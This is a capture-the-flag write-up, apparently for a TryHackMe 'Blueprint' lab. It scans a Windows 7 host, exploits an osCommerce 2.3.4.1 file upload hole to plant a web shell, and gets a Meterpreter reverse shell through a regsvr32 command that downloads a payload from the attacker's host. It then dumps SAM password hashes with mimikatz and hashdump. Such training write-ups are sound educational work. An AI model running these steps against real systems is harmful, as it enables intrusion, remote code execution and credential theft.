

Blueprint - Write Up

Table of Contents
| Link | Level | Creator |
|---|---|---|
| Here | Medium | user |
Reconn
╰─ lanfran@parrot ❯ map 10.10.17.115 ─╯
[sudo] password for lanfran:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-09 12:02 CEST
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 53.85% done; ETC: 12:05 (0:00:49 remaining)
Nmap scan report for 10.10.17.115
Host is up (0.28s latency).
Not shown: 987 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 7.5
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
443/tcp open ssl/http Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after: 2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_ http/1.1
445/tcp open microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open mysql MariaDB (unauthorized)
8080/tcp open http Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
49152/tcp open msrpc Microsoft Windows RPC
49153/tcp open msrpc Microsoft Windows RPC
49154/tcp open msrpc Microsoft Windows RPC
49158/tcp open msrpc Microsoft Windows RPC
49159/tcp open msrpc Microsoft Windows RPC
49160/tcp open msrpc Microsoft Windows RPC
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: mean: -17m57s, deviation: 34m37s, median: 2m01s
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:5b:ac:b6:9d:0d (unknown)
| smb-os-discovery:
| OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
| OS CPE: cpe:/o:microsoft:windows_7::sp1
| Computer name: BLUEPRINT
| NetBIOS computer name: BLUEPRINT\x00
| Workgroup: WORKGROUP\x00
|_ System time: 2021-07-09T11:06:53+01:00
| smb-security-mode:
| account_used: guest
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2021-07-09T10:06:52
|_ start_date: 2021-07-09T10:02:29
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 123.09 seconds
Going to the webpage on 8080 port, we find a folder named /oscommerce-2.3.4/ so maybe we can exploit this…
Let’s use searchsploit to search for exploits…
╰─ lanfran@parrot ❯ searchsploit osCommerce 2.3.4.1 ─╯
---------------------------------------------------------------------------------------------------- ---------------------------------
Exploit Title | Path
---------------------------------------------------------------------------------------------------- ---------------------------------
osCommerce 2.3.4.1 - 'currency' SQL Injection | php/webapps/46328.txt
osCommerce 2.3.4.1 - 'products_id' SQL Injection | php/webapps/46329.txt
osCommerce 2.3.4.1 - 'reviews_id' SQL Injection | php/webapps/46330.txt
osCommerce 2.3.4.1 - 'title' Persistent Cross-Site Scripting | php/webapps/49103.txt
osCommerce 2.3.4.1 - Arbitrary File Upload | php/webapps/43191.py
osCommerce 2.3.4.1 - Remote Code Execution | php/webapps/44374.py
---------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
╰─ lanfran@parrot ❯ searchsploit -m 43191 ─╯
Exploit: osCommerce 2.3.4.1 - Arbitrary File Upload
URL: https://www.exploit-db.com/exploits/43191
Path: /usr/share/exploitdb/exploits/php/webapps/43191.py
File Type: ASCII text, with CRLF line terminators
Copied to: /home/lanfran/THM/blueprint/43191.py
Great! We downloaded the exploit for Arbitrary File Upload
Foothold - User
Going to http://10.10.17.115:8080/oscommerce-2.3.4/catalog/install/install.php
We can create a new installation, i used the following credentials:

After waiting a while, I used the credentials admin:password to configure the server.
╰─ lanfran@parrot ❯ python 43191.py -f shell_online.php -u http://10.10.17.115:8080/oscommerce-2.3.4 --auth=admin:password ─╯
[+] Authentication successful
[+] Successfully prepared the exploit and created a new newsletter with nID 1
[+] Successfully locked the newsletter. Now attempting to upload..
[*] Now trying to verify that the file shell_online.php uploaded..
[+] Got a HTTP 200 Reply for the uploaded file!
[+] The uploaded file should now be available at http://10.10.17.115:8080/oscommerce-2.3.4/catalog/admin/shell_online.php
Great! Let’s use metasploit to get a reverse shell.
msf6 > use multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/script/web_delivery) > set SERVHOST 10.10.17.115
SERVHOST => 10.10.17.115
msf6 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set target 3
target => 3
msf6 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.9.1.222:4444
msf6 exploit(multi/script/web_delivery) > [*] Using URL: http://0.0.0.0:8080/bCkvAgou9kpSIQ
[*] Local IP: http://192.168.1.254:8080/bCkvAgou9kpSIQ
[*] Server started.
[*] Run the following command on the target machine:
regsvr32 /s /n /u /i:http://10.9.1.222:8080/bCkvAgou9kpSIQ.sct scrobj.dll
[*] 10.10.17.115 web_delivery - Handling .sct Request
[*] 10.10.17.115 web_delivery - Delivering Payload (1900 bytes)
[*] Sending stage (175174 bytes) to 10.10.17.115
[*] Meterpreter session 1 opened (10.9.1.222:4444 -> 10.10.17.115:49441) at 2021-07-09 12:34:45 +0200
msf6 exploit(multi/script/web_delivery) > sessions -l
Active sessions
===============
Id Name Type Information Connection
-- ---- ---- ----------- ----------
1 meterpreter x86/windows NT AUTHORITY\SYSTEM @ BLUEPRINT 10.9.1.222:4444 -> 10.10.17.115:49441 (10.10.17.115)
Woohoo!!! We got a shell with NT AUTHORITY\SYSTEM!!
It’s max privileged user on Windows.
So let’s create a shell to read our flag.
meterpreter > shell
Process 4748 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.
C:\xampp\htdocs\oscommerce-2.3.4\catalog\admin>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
THM{[REDACTED]}
“Lab” user NTML hash decrypted
To dump the hashes you can use kiwi, ot hashdump
- With kiwi:
meterpreter > load kiwi
Loading extension kiwi...
.#####. mimikatz 2.2.0 20191125 (x86/windows)
.## ^ ##. "A La Vie, A L'Amour" - (oe.eo)
## / \ ## /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
## \ / ## > http://blog.gentilkiwi.com/mimikatz
'## v ##' Vincent LE TOUX ( vincent.letoux@gmail.com )
'#####' > http://pingcastle.com / http://mysmartlogon.com ***/
Success.
meterpreter > lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : BLUEPRINT
SysKey : 147a48de4a9815d2aa479598592b086f
Local SID : S-1-5-21-3130159037-241736515-3168549210
SAMKey : 3700ddba8f7165462130a4441ef47500
RID : 000001f4 (500)
User : Administrator
Hash NTLM: [REDACTED]
RID : 000001f5 (501)
User : Guest
RID : 000003e8 (1000)
User : Lab
Hash NTLM: [REDACTED]
- With hashdump
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:[REDACTED]:::
And crack the hash with crackstation
Read other posts